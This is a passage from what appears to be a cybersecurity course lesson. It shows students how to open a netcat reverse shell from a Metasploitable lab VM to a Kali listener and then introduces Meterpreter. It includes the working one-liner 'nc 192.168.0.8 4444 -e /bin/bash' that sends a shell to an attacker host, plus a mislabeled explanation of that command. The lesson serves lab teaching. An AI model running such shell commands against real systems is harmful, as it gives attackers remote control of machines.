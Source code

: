 1. Start a listener on the attacker's Kali machine.

   - On Kali Linux, run the following command:

      - `nc -lvnp 4444`


2. On the Metasploitable VM, run the following command:

   - `nc 192.168.0.8 4444 -e /bin/bash`

     -  `nc`: Starts the listener on port `4444`.
     - `-e /bin/bash`: Provides a shell to the connecting machine, in this case the attacking Kali machine.

   ![REV 2](Images/REVERSE_2.png)

3. Back on the Kali machine, you should see a successful connection.

    - Demonstrate code execution by running the following on the Kali machine:

       - `whoami`
       - `ifconfig`

    - This demonstrates that the shell on the target is active and responding.

       ![REV 1](Images/REVERSE_1.png)

    - This  means that you have successfully established a connection between the attacker and target machines.


### 03. Activity: Bind and Reverse Shells and Ncat  

- [Activity File: Bind and Reverse Shell and Ncat](Activities/03_Bind_and_Reverse/README.md)

### 04. Activity Review: Bind and Reverse Shells and Ncat  


### 05.  First Steps with Meterpreter

Metasploit is a convenient tool suite that automates entire steps of engagements and enables complex and advanced techniques. 

- For example, Metasploit can exploit a target _and_ open a session onto it in a single step.

- In fact, when we exploited a vulnerability with Metasploit and MSFconsole in the previous class, we also opened a Meterpreter session. However, we did not interact with it. 
